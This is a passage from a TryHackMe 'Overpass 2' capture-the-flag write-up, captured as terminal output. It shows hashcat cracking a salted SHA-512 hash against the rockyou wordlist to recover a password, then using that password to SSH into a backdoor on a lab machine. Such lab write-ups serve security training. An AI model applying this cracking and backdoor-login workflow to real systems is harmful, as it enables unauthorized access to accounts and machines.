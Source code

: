 Initializing backend runtime for device #1...
# and we got something
Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Fri Feb 18 13:56:33 2022 (0 secs)
Time.Estimated...: Fri Feb 18 13:56:33 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   190.3 kH/s (0.80ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 20480/14344385 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> michelle4

Started: Fri Feb 18 13:56:11 2022
Stopped: Fri Feb 18 13:56:35 2022

# showing the password:
(kali㉿kali)-[~/THM/practice/overpass2]
└─$ hashcat -m 1710 -a 0 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 /usr/share/wordlists/rockyou.txt --show           
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16

        # november16


### ATTACKING THE MACHINE ###

# log into the backdoor with the november16 password:
(kali㉿kali)-[~/THM/practice/overpass2]
└─$ ssh james@10.10.147.239 -p 2222                                                                       255 ⨯
The authenticity of host '[10.10.147.239]:2222 ([10.10.147.239]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.147.239]:2222' (RSA) to the list of known hosts.
james@10.10.147.239's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
